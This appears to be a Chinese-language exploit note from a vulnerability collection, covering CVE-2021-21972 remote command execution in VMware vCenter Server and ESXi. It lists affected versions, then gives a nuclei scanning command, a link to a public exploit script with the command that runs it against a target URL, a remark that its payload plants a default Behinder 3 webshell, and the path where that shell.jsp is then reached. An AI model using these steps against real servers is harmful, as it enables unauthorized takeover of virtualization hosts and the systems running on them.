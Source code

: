 ## 漏洞概述

攻击者可通过访问web管理端向vCenter Server发送请求从而在操作系统上执行任意命令或者上传一个webshell到vcenter服务器的任意位置执行.

## 漏洞影响

```http
VMware vCenter Server 7.0系列 < 7.0.U1c
VMware vCenter Server 6.7系列 < 6.7.U3l
VMware vCenter Server 6.5系列 < 6.5 U3n
VMware ESXi 7.0系列 < ESXi70U1c-17325551
VMware ESXi 6.7系列 < ESXi670-202102401-SG
VMware ESXi 6.5系列 < ESXi650-202102101-SG
```

## POC

```bash
nuclei -tags vmware -t cves/ -l urls.txt

Goby（需导入佩奇文库的POC）
```

## EXP

[@NS-Sp4ce](https://github.com/NS-Sp4ce/CVE-2021-21972)

```bash
python CVE-2021-21972.py -url https://192.168.2.1
```

`payload`文件夹内的`tar`文件为默认冰蝎3 webshell

```http
https://domain.com/ui/resources/shell.jsp
```

